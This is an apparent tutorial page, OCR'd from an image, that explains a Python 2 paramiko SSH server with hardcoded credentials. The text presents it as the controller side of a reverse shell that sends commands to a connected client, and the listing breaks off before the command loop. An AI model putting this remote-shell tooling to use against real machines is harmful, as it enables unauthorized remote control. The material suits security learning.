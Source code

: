 ```python
HOST_KEY = paramiko.RSAKey(filename='test_rsa.key')
USERNAME = 'buffy'
PASSWORD = 'killvampires'

class Server(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()
    def check_channel_request(self, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
    def check_auth_password(self, username, password):
        if (username == USERNAME) and (password == PASSWORD):
            return paramiko.AUTH_SUCCESSFUL
        return paramiko.AUTH_FAILED
```

Now, let's take a look at the **main** function, which does the following:

1. Creates a socket object to bind the host and port, so it can listen for incoming connections.
2. Once a connection is established (the client tried to connect to the server and the socket accepted the connection), it creates a **paramiko** Transport object for this socket.
3. The program instantiates a **Server** object and starts the paramiko session with it.
4. Authentication is attempted.
4. Once the authentication is successful, the server starts a loop where it will keep getting  input commands from the user and issuing it in the client. This is our reversed  shell!

```python
import paramiko
import getopt
import threading
import sys
import socket

def main():
    if not len(sys.argv[1:]):
        print "Usage: ssh_server.py <SERVER>  <PORT>"
        sys.exit(0)

    # creating a socket object
    server = sys.argv[1]
    ssh_port = int(sys.argv[2])
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        sock.bind((server, ssh_port))
        sock.listen(100)
        print "[+] Listening for connection ..."
        client, addr = sock.accept()
    except Exception, e:
        print "[-] Connection Failed: " + str(e)
        sys.exit(1)
    print "[+] Connection Established!"

    # creating a paramiko object
    try:
        Session = paramiko.Transport(client)
        Session.add_server_key(HOST_KEY)
        paramiko.util.log_to_file("filename.log")
        server = Server()
        try:
            Session.start_server(server=server)
        except paramiko.SSHException, x:
            print '[-] SSH negotiation failed.'
```